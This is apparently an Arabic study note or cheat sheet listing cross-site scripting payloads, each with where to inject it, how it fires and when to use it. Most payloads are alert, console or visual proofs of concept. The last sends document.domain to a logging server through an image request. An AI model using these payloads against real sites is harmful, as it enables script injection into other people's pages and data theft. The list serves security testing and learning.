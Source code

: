 - **الحقن**: `<input autofocus onfocus=alert(1)>`
  - **الإدخال**: أدخل في نموذج: `<input autofocus onfocus=alert(1)>`
  - **كيف يعمل**: يُنفذ التنبيه عند تركيز المؤشر على الحقل.
  - **متى يُستخدم؟**: في النماذج التفاعلية.
- **الحقن**: `<svg onload=alert('XSS')>`
  - **الإدخال**: أدخل في تعليق: `<svg onload=alert('XSS')>`
  - **كيف يعمل**: يُنفذ التنبيه عند تحميل عنصر SVG.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `<script>`.
- **الحقن**: `<video poster=x onerror=alert(1)>`
  - **الإدخال**: أدخل في حقل: `<video poster=x onerror=alert(1)>`
  - **كيف يعمل**: يُنفذ التنبيه عند فشل تحميل صورة الفيديو.
  - **متى يُستخدم؟**: لاختبار وسوم HTML5.
- **الحقن**: `<a href="javascript:alert('XSS')">اضغط هنا</a>`
  - **الإدخال**: أدخل في تعليق: `<a href="javascript:alert('XSS')">اضغط هنا</a>`
  - **كيف يعمل**: يُنفذ التنبيه عند النقر على الرابط.
  - **متى يُستخدم؟**: لاختبار الروابط.
- **الحقن**: `<div onclick=alert('XSS')>اضغط هنا</div>`
  - **الإدخال**: أدخل في نموذج: `<div onclick=alert('XSS')>اضغط هنا</div>`
  - **كيف يعمل**: يُنفذ التنبيه عند النقر على العنصر.
  - **متى يُستخدم؟**: لاختبار الأحداث التفاعلية.
- **الحقن**: `<iframe src=javascript:alert('XSS')></iframe>`
  - **الإدخال**: أدخل في حقل: `<iframe src=javascript:alert('XSS')></iframe>`
  - **كيف يعمل**: يُنفذ التنبيه عبر مصدر الـ iframe.
  - **متى يُستخدم؟**: في سياقات تسمح بـ iframes.

 - **الحقن**: `javascript:onclick=alert(1);`
	 امتي استخدم ال payload ده ==>  [[شرح فديوهات لل الخطوة  2   Basic XSS Payloads#تاني ملحوظه هامه جدا في ثغره ال Xss]]

#### ج. حقن بدون تنبيهات
{  #XSS_with_out_alret /  }
استخدام شيفرات لا تُنتج تنبيهات لتأكيد التنفيذ بطريقة أقل إزعاجًا.
- **الحقن**: `<script>console.log('XSS')</script>`
  - **الإدخال**: أدخل في تعليق: `<script>console.log('XSS')</script>`
  - **كيف يعمل**: يسجل "XSS" في وحدة التحكم.
  - **متى يُستخدم؟**: لتأكيد التنفيذ دون إزعاج المستخدم.
- **الحقن**: `<script>console.error('XSS: ' + document.domain)</script>`
  - **الإدخال**: `https://example.com/search?query=<script>console.error('XSS: ' + document.domain)</script>`
  - **كيف يعمل**: يسجل خطأ في وحدة التحكم مع النطاق.
  - **متى يُستخدم؟**: لتأكيد التنفيذ مع معلومات النطاق   - **الإدخال**: أدخل في حقل: `<script>console.error('XSS: ' + document.domain)</script>`
  - **كيف يعمل**: يسجل خطأ في وحدة التحكم مع النطاق.
  - **متى يُستخدم؟**: لتأكيد التنفيذ مع زيادة الوضوح.
- **الحقن**: `<script>throw new Error('XSS')</script>`
  - **الإدخال**: أدخل في نموذج: `<script>throw new Error('XSS')</script>`
  - **كيف يعمل**: يُطلق خطأ في وحدة التحكم.
  - **متى يُستخدم؟**: لتأكيد التنفيذ عبر أخطاء وحدة التحكم.
- **الحقن**: `<script>document.title='XSS'</script>`
  - **الإدخال**: أدخل في تعليق: `<script>document.title='XSS'</script>`
  - **كيف يعمل**: يغير عنوان الصفحة إلى "XSS".
  - **متى يُستخدم؟**: لتأكيد التنفيذ بتغيير بصري.
- **الحقن**: `<script>document.body.style.background='red'</script>`
  - **الإدخال**: أدخل في حقل: `<script>document.body.style.background='red'</script>`
  - **كيف يعمل**: يغير لون خلفية الصفحة إلى الأحمر.
  - **متى يُستخدم؟**: لتأكيد التنفيذ بتغيير بصري واضح.
- **الحقن**: `<script>new Image().src='http://localhost/log?c='+document.domain</script>`
  - **الإدخال**: `https://example.com/search?query=<script>new Image().src='http://localhost/log?c='+document.domain</script>`
  - **كيف يعمل**: يرسل النطاق إلى خادم خارجي (يتطلب خادمًا للتسجيل).
  - **متى يُستخدم؟**: لتأكيد التنفيذ مع إرسال بيانات.
